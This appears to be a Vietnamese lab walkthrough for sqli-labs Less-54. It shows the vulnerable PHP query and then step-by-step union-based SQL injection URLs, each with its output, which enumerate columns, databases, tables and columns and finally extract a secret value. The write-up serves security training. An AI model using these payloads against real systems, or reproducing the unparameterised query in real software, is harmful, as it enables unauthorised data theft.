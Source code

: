 - code 

```
$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
```

- Bước 1: ID = 1

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=1`

output

```
Your Login name:Dumb
Your Password:Dumb
```

- Bước 2: Sử dụng order để tìm số columns được sử dụng

```
http://10.10.10.171/sqli-labs/Less-54/index.php?id=1' ORDER BY 4 --+
http://10.10.10.171/sqli-labs/Less-54/index.php?id=1' ORDER BY 3 --+
```

=> Dừng lại ở order by 3 

- Bước 3: Dump database

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(schema_name) from information_schema.schemata --+`

output 

```
Your Login name:2
Your Password:information_schema,challenges,mysql,performance_schema,security
```

=> chú ý vào db `challenges`

- Bước 4: Dump tables trong `challenges`

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'--+`

output 

```
Your Login name:2
Your Password:OMMGMTJC4D
```

- Bước 5: Dump columns trong `OMMGMTJC4D`

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='OMMGMTJC4D'--+`

output

```
Your Login name:2
Your Password:id,sessid,secret_QSLR,tryy
```

- Bước 6:

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(secret_QSLR) from OMMGMTJC4D--+
`

output

```
Your Login name:2
Your Password:x0gmaPL2OkLnGIjp48CPKXwZ
```

Nhập `x0gmaPL2OkLnGIjp48CPKXwZ` và submit
